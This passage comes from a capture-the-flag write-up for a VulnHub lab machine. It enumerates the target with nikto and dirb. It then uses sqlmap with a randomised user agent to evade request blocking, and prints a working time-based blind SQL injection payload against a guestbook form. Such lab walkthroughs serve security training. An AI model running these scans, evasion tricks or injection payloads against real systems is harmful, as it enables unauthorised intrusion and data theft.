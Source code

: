 # flag2

By running nikto against the target we can see some requests return a PHP HTTP header so there must be a PHP application somewhere on the Server.
```
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.20
```

So let's run `dirb` against the target and also check for files with an `.php` extension:
```
root@kali:~# dirb http://192.168.56.2/ /usr/share/wordlists/dirb/big.txt -X .php
-----------------
GENERATED WORDS: 20458
---- Scanning URL: http://192.168.56.2/ ----
+ http://192.168.56.2/admin.php (CODE:302|SIZE:0)
+ http://192.168.56.2/db.php (CODE:200|SIZE:0)
+ http://192.168.56.2/index.php (CODE:200|SIZE:647974)
+ http://192.168.56.2/report.php (CODE:200|SIZE:527)
-----------------
```

After opening `index.php` in a browser we see a simple guestbook application and a feature to report issues under `report.php`.

![Admin Login](/img/vulnhub_dc416_dick_dastardly/admin_login.png)

By playing around with the parameters of the guestbook to see if it's vulnerable to XSS it seems that there is some filtering and escaping in place. So let's try `sqlmap` and see if it can find any SQL-Injection vulnerabilities.
```
sqlmap -u http://192.168.56.2/index.php --data "name=asd&msg=asd" --level=5 --risk=3 --batch
```

After running this command I could not see any new entries on the guestbook page so it looks like all requests were blocked. `sqlmap` sends it's own user agent on every request containing the tool name so maybe the server is blocking these requests. The user agent can be randomized with the `--random-agent` option so let's give it another try:
```
sqlmap -u http://192.168.56.2/index.php --data "name=asd&msg=asd" --level=5 --risk=3 --random-agent --batch
```

Bingo:
```
sqlmap identified the following injection point(s) with a total of 7776 HTTP(s) requests:
---
Parameter: name (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=asd'||(SELECT 'RbDO' FROM DUAL WHERE 4795=4795 AND SLEEP(5))||'&msg=asd
---
```

Let's also test the `report.php` file for SQL-Injection issues:
```
sqlmap -u http://192.168.56.2/report.php --data="issue=asdf" --random-agent --level=5 --risk=3
```
